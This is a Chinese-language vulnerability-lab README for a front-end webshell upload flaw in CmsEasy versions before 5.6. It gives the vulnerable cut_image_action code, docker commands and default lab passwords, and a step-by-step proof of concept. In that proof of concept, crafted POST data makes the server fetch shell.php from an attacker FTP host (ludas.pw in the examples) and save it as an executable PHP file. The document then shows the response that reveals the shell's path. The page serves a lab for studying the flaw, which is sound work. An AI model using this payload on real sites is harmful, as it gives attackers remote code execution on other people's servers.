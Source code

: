CmsEasy< 5.6_2016-10-12 前台无限制GetShell
---

### 漏洞信息
CmsEasy是一款基于PHP+Mysql 架构的网站内容管理系统，也是一个PHP开发平台。采用模块化方式开发，功能易用便于扩展，可面向大中型站点提供重量级网站建设解决方案。攻击者可以在网站前台进行Getshell。

详细参考：[CmsEasy前台无限制GetShell](https://xianzhi.aliyun.com/forum/read/215.html)
#####漏洞相关代码

```
/*function cut_image_action() {
    $len = 1;
    if(config::get('base_url') != '/'){
        $len = strlen(config::get('base_url'))+1;
    }
    if(substr($_POST['pic'],0,4) == 'http'){
        front::$post['thumb'] = str_ireplace(config::get('site_url'),'',$_POST['pic']);
    }else{
        front::$post['thumb'] = substr($_POST['pic'],$len);
    }
    $thumb=new thumb();
    $thumb->set(front::$post['thumb'],'jpg');
    $img=$thumb->create_image($thumb->im,$_POST['w'],$_POST['h'],0,0,$_POST['x1'],$_POST['y1'],$_POST['x2'] -$_POST['x1'],$_POST['y2'$new_name=$new_name_gbk=str_replace('.','',Time::getMicrotime()).'.'.end(explode('.',$_POST['pic']));
    $save_file='upload/images/'.date('Ym').'/'.$new_name;
    @mkdir(dirname(ROOT.'/'.$save_file));
    ob_start();
    $thumb->out_image($img,null,85);
    file_put_contents(ROOT.'/'.$save_file,ob_get_contents());
    ob_end_clean();
    $image_url=config::get('base_url').'/'.$save_file;
    //$res['size']=ceil(strlen($img) / 1024);
    $res['code']="
                    //$('#cut_preview').attr('src','$image_url');
                    $('#thumb').val('$image_url');
                    alert(lang('save_success'));
    ";
    echo json::encode($res);
}
*/
```

### 镜像信息
类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/administrator/ | admin | admin888

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:c_cmseay_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:c_cmseay_1
```
  > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用
访问 `http://你的 IP 地址:端口号/`

### PoC 使用

1.特殊图片处理

>解压payload.zip，使用shell.jpg或者jpg_payload自行生成可以过gd处理的图片
>使用方法 php jpg_payload.php new.jpg 会在运行目录下生成payload_new.jpg

2.部署远程环境
>将shell.jpg上传至FTP服务器并将后缀改为php

3.获取webshell

>`http://你的 IP 地址:端口号`/index.php?case=tool&act=cut_image
post data:
pic=1ftp://`FTP地址`/shell.php&w=700&h=1120&x1=0&x2=700&y1=0&y2=1120

```
相关参数说明
w=x2=图片宽度
h=y2=图片高度
x1=y1=固定0

如果$_POST['pic']开头4个字符不是http的话，就认为是本站的文件，会从前面抽取掉baseurl（等于返回文件相对路径）所以构造的时候 如果站点不是放在根目录 则需要在前面补位strlen(base_url)+2 如果放在根目录 也需要补上1位（'/'的长度）
```


>举个栗子：

>目标站 http://www.target.com/easy/cmseasy放在easy子目录,就需要补上strlen(base_url)+2 = strlen('easy')+2=6位post数据就是
>pic=111111ftp://ludas.pw/shell.php&w=228&h=146&x1=0&x2=228&y1=0&y2=146

>目标站 http://www.target2.com/cmseasy放在web根目录 就需要补上1位post数据就是
>pic=1ftp://ludas.pw/shell.php&w=228&h=146&x1=0&x2=228&y1=0&y2=146


成功会返回
>{"code":"\r\n \/\/$('#cut_preview').attr('src','\/upload\/images\/201612\/148159258747.php');\r\n $('#thumb').val('\/upload\/images\/201612\/148159258747.php');\r\n\t\t\t\t alert(lang('save_success'));\r\n "}

拼接URL构造shell地址
>`http://你的 IP 地址:端口号`/upload/images/201612/148159258747.php

